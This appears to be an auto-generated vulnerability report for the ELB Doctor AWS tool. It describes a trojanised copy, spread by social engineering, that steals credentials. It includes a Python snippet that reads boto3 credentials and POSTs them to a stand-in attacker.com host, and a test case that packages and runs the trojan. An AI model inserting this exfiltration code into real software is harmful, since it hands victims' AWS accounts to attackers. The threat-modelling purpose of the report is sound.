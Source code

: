 ### Vulnerability List

#### Vulnerability Name: Credential Exfiltration via Social Engineering

* Description:
    1. An attacker creates a modified version of the ELB Doctor tool.
    2. This modified version includes malicious code designed to exfiltrate AWS credentials. This code could be added to any part of the application, for example, within the `elb_doctor/api/elb_doctor_api.py` file when making AWS API calls using `boto3`. The malicious code could capture the AWS credentials configured in the user's environment (e.g., environment variables, AWS configuration files, IAM roles assumed by CloudShell).
    3. The attacker hosts this modified version on a public platform, or distributes it through social engineering tactics, such as emails, forum posts, or fake repositories, tricking users into downloading and using the malicious tool instead of the legitimate one.
    4. A user, believing they are downloading the legitimate ELB Doctor tool, downloads and installs the attacker's modified version.
    5. The user executes the modified ELB Doctor tool.
    6. As the tool runs and interacts with AWS, the malicious code within the tool executes in the background.
    7. This malicious code exfiltrates the user's AWS credentials to a server controlled by the attacker. This could be done through various methods, such as sending the credentials via HTTP requests, DNS queries, or other network protocols.
    8. The attacker now has access to the user's AWS account with the permissions associated with the exfiltrated credentials.

* Impact:
    - **High Impact:** If successful, this vulnerability allows an attacker to gain unauthorized access to the victim's AWS account. The level of access depends on the permissions associated with the compromised AWS credentials. In the context of ELB Doctor, the tool requires IAM permissions to describe Elastic Load Balancers and Target Group health. If the compromised credentials have broader permissions, the attacker's impact could be significantly greater, potentially including data breaches, resource manipulation, or financial losses through unauthorized resource usage.

* Vulnerability Rank: High

* Currently Implemented Mitigations:
    - The project uses `git-secrets` as a pre-commit hook to prevent accidental committing of credentials into the repository. This mitigation is described in `CONTRIBUTING.md`. However, this does not mitigate the social engineering vulnerability itself, but rather prevents developers from accidentally introducing secrets into the codebase.
    - The `README.md` recommends using AWS CloudShell, which is a more secure environment as it manages credentials automatically and reduces the risk of exposing them directly. However, users may still choose to run the tool locally with configured credentials.
    - The `SECURITY.md` file (mentioned in `README.md`) and `CONTRIBUTING.md#security-issue-notifications` encourage users to report security issues through AWS vulnerability reporting page instead of public GitHub issues. This is a standard security practice, but not a direct mitigation for social engineering.

* Missing Mitigations:
    - **Code Signing:** Implementing code signing for releases would allow users to verify the authenticity and integrity of the ELB Doctor tool, ensuring that they are running the official version and not a modified malicious one.
    - **Distribution through Trusted Channels:** Publishing ELB Doctor to trusted package repositories like PyPI would significantly reduce the risk of users downloading compromised versions from unofficial sources. The `README.md` mentions plans to publish to PyPI in the future.
    - **Security Warnings in Documentation:** Explicitly adding security warnings in the `README.md` and documentation about the risks of downloading and running software from untrusted sources, and advising users to only download the tool from the official repository or trusted package repositories, would increase user awareness.
    - **Input Validation and Sanitization:** While not directly related to credential exfiltration, robust input validation and sanitization throughout the code can prevent other types of vulnerabilities that might be introduced in modified versions, making it harder for attackers to bundle other exploits with credential theft.

* Preconditions:
    - An attacker must be able to modify the ELB Doctor code and create a malicious version.
    - The attacker must successfully socially engineer a user into downloading and running the malicious version instead of the legitimate one.
    - The user must have AWS credentials configured in their environment for the ELB Doctor tool to use.

* Source Code Analysis:
    - The provided code files do not contain any explicit vulnerability related to credential exfiltration *within the original code itself*. The vulnerability arises from the *potential modification* of the code by an attacker.
    - The tool, as designed, is intended to interact with AWS services using the AWS SDK for Python (boto3). This inherently requires AWS credentials to be configured in the environment where the tool is executed.
    - In files like `elb_doctor/api/elb_doctor_api.py`, the `boto3` library is used to make calls to AWS APIs (e.g., `GetElbs().get_elb(config)`).  A malicious modification could be inserted at any point where AWS API calls are made. For instance, before or after making an API call, code could be added to access the AWS credentials being used by `boto3` and send them to an attacker-controlled server.
    - Example of malicious code insertion in `elb_doctor/api/elb_doctor_api.py` (conceptual, for demonstration):

    ```python
    import boto3
    import requests # for exfiltration

    class ElbDoctorApi:
        # ... other methods ...

        def retrieve_clbs(self,answers) -> Dict:
            # ... region config ...
            config = Config(...)

            # --- Malicious code starts ---
            try:
                session = boto3.Session()
                credentials = session.get_credentials()
                if credentials:
                    access_key = credentials.access_key
                    secret_key = credentials.secret_key
                    token = credentials.token
                    exfiltration_url = "http://attacker.com/receive_creds"
                    payload = {
                        "access_key": access_key,
                        "secret_key": secret_key,
                        "token": token
                    }
                    requests.post(exfiltration_url, json=payload)
                    print("Credentials exfiltrated (simulated)") # attacker might want to be stealthier
            except Exception as e:
                print(f"Credential exfiltration failed: {e}")
            # --- Malicious code ends ---

            all_clbs = GetElbs().get_elb(config) # Original code continues
            # ... rest of the method ...
    ```
    - This conceptual example shows how easily malicious code can be inserted to steal credentials. The attacker could make it more sophisticated to avoid detection.

* Security Test Case:
    1. **Setup Attacker Environment:**
        - Create a simple HTTP server (e.g., using Python's `http.server` or `ngrok` for public exposure) to receive exfiltrated credentials. Note down the server's URL.
        - Modify a copy of the `elb-doctor` code by inserting malicious code similar to the example above in `elb_doctor/api/elb_doctor_api.py` within the `retrieve_clbs` function (or any other relevant function that gets called during normal tool execution). Replace `"http://attacker.com/receive_creds"` with the URL of your attacker server.
        - Package this modified version into a distributable format (e.g., zip file, or create a fake GitHub repository).

    2. **Victim Setup:**
        - Set up AWS credentials in a way that `boto3` can access them (e.g., using environment variables, AWS CLI configuration, or IAM roles if testing in an EC2 instance or CloudShell). Ensure these credentials have the necessary permissions for ELB Doctor to function (as described in IAM Permissions section of `README.md`).
        - Download the *malicious* version of ELB Doctor from the attacker's distribution point (this simulates the social engineering part - the user is tricked into downloading the wrong version).
        - Install the malicious ELB Doctor (e.g., using `python3 -m pip install .` if packaged as a Python package, or simply running the script if distributed as standalone files).

    3. **Execute the Malicious Tool:**
        - Run the `elbdoc` command (or the equivalent execution command for the modified version).
        - Interact with the tool as a normal user would, for example, select an AWS region and ELB type. This will trigger the execution of the malicious code.

    4. **Verify Credential Exfiltration:**
        - Check the logs of your attacker's HTTP server. You should see a POST request containing the AWS credentials (access key, secret key, and potentially session token) sent from the victim's machine.

    5. **Cleanup:**
        - Remove the malicious ELB Doctor from the victim's system.
        - Rotate or invalidate the AWS credentials that were used in the test, as they are now potentially compromised.

This test case, if successful, demonstrates that a modified version of ELB Doctor can indeed exfiltrate AWS credentials, confirming the social engineering vulnerability.